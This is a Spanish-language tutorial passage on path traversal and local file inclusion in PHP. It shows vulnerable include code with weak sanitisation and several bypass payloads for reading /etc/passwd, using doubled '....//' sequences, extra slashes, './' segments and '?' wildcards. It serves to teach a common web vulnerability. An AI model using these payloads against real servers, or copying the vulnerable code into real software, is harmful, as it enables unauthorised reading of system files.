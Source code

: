 * **index.php?filename=../../../../../etc/passwd** y asi burlar la sanitizacion ya que tendriamos un **/etc/passwd**


Sanitizando de nuevo el codigo evitariamos lo de arriba.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	include("/var/www/html/" . $filename); 
?>

	// . = Concatenar
	// ruta = Que busque el archivo siempre en esa ruta
	// str_replace = Donde vea ../ lo convierta a nada 
```
Si hacemos de nuevo un Directory Path Traversal de la manera normal obtendriamos lo siguiente:
**/var/www/html/../../../../../etc/passwd** -> /var/www/htmletc/passwd Y esa ruta no existe
Pero podriaos burlar esa sanitizacion en la **web** colocandolo de manera doble.
* **index.php?filename=....//....//....//....//....//etc/passwd** y como resultado final tendriamos **/etc/passwd**


Sanitizando de nuevo el codigo con expresiones regulares evitariamos lo de arriba.
```php
<?php
	$filename = $_GET['filename'];
	$filename = str_replace("../", "", $filename);
	
	if(preg_match("/\/etc\/passwd/", $filename) === 1){
		echo "\n[+] No es posible visualizar el contenido de este archivo\n";
	} else {
		include("/var/www/html/" . $filename);
	} 
?>

	// . = Concatenar
	// ruta = Que busque el archivo siempre en esa ruta
	// str_replace = Donde vea ../ lo convierta a nada 
	// preg_match = Lo que haga match que seria /etc/passwd, entraria al bucle y no mostraria el contenido 
```
Para poder burlar este tipo de sanitizacion podemos colocar este tipo de input **/etc/././././passwd**, **/etc///passwd**, 
Pero podriaos burlar esa sanitizacion en la **web** colocandolo mas barras despues del etc o barra y punto.
* **index.php?filename=....//....//....//....//....//etc/////passwd** y obtendriamos como resultado **/etc/passwd**
* **index.php?filename=....//....//....//....//....//etc/./././passwd** y obtendriamos como resultado **/etc/passwd**
Tambien podemos utilizar interrogantes y el sistema nos buscara aun asi el archivo:
* **index.php?filename=....//....//....//....//....//e??/./././pa???d** y obtendriamos como resultado **/etc/passwd**
